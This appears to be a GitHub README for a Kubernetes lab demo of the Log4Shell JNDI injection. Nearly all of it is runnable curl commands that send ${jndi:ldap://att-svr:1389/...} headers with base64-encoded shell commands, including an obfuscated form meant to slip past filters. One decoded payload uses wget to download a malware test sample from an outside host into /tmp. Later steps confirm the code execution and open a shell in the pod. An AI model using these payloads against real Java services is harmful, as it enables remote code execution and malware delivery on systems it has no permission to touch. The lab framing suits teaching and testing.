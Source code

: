 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [Running the Demo](#running-the-demo)
- [Encode with base64 your command](#encode-with-base64-your-command)
- [Execute the attack without obfuscation](#execute-the-attack-without-obfuscation)
- [Execute the attack with obfuscation](#execute-the-attack-with-obfuscation)
- [Confirm that the code execution was successful](#confirm-that-the-code-execution-was-successful)
- [Connect to runnint pod](#connect-to-runnint-pod)
- [Delete file inside the container](#delete-file-inside-the-container)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

Running the Demo
----------------

kubectl config set-context $(kubectl config current-context) --namespace=dirty-net2

1. Get into the attacking host

```
kubectl exec -it pod-attack-machine -n dirty-net -- /bin/sh
```

2. Run the following two commands to execute the attack to the “vul-app1” container

```
curl -v vul-app1:8080 -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'
```

Note: The command embedded in the HTTP header is

$ echo 'd2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK' | base64 -d wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/malware-sample





## Encode with base64 your command

```console
echo "touch /tmp/youHaveBeenPwned" | base64 -w0
dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==
```

## Execute the attack without obfuscation

```console
curl $(kubectl get svc vul-app1-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
curl $(kubectl get svc vul-app2-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
```

## Execute the attack with obfuscation

```console
curl $(kubectl get svc vul-app1-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
curl $(kubectl get svc vul-app2-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
```

## Confirm that the code execution was successful

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- ls -l /tmp
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- ls -l /tmp

```

## Connect to runnint pod

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- sh
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- sh
```

## Delete file inside the container

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- rm -f /tmp/youHaveBeenOwned
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- rm -f /tmp/youHaveBeenOwned
```
